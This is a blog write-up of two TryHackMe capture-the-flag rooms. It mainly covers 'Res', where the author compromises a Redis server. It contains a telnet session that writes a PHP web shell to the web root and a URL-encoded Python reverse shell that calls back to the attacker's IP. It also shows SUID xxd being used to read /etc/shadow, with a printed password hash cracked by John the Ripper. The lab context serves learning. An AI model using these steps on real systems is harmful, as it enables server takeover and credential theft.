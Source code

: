 ```yaml
---
layout: post
title:  "THM: Res and Watcher"
date:   2021-02-19 20:00:00 +1100
category: hacking
---
```


## Watcher
I did [watcher](https://tryhackme.com/room/watcher), it was okay but nothing to write about. We had LFI to get FTP creds, upload a PHP reverse shell using the FTP account then include it for RCE, then a few different things to move between users but nothing exciting.

## Res
*Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!*

This was a *redis* box, pretty simple. I mostly want to record the RCE step, which wasn't guided. I followed [this](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) like so, with telnet:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/res]
└─# telnet 10.10.1.20 6379
Trying 10.10.1.20...
Connected to 10.10.1.20.
Escape character is '^]'.
INFO
$3677
# Server
redis_version:6.0.7
# etc
config set dir /var/www/html 
+OK
config set dbfilename cmd.php
+OK
set test "<?php system($_GET['cmd']);?>"
+OK
save
+OK
{% endhighlight %}

Then:

>http://10.10.1.20/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.10.123%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

Using the python reverse shell. Privesc was via the SUID bit on XXD to read /etc/shadow and break a password for our user from the sudoers group:

{% highlight shell %}
www-data@ubuntu:/dev/shm$ LFILE=/etc/shadow 
LFILE=/etc/shadow
www-data@ubuntu:/dev/shm$ xxd "$LFILE" | xxd -r
xxd "$LFILE" | xxd -r
#etc
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
{% endhighlight %}

Which then was:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/res]
└─# john hash -w=/usr/share/wordlists/rockyou.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beautiful1       (?)
1g 0:00:00:00 DONE (2021-02-19 03:58) 1.754g/s 2245p/s 2245c/s 2245C/s kucing..poohbear1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Anyway the redis part was relevant.
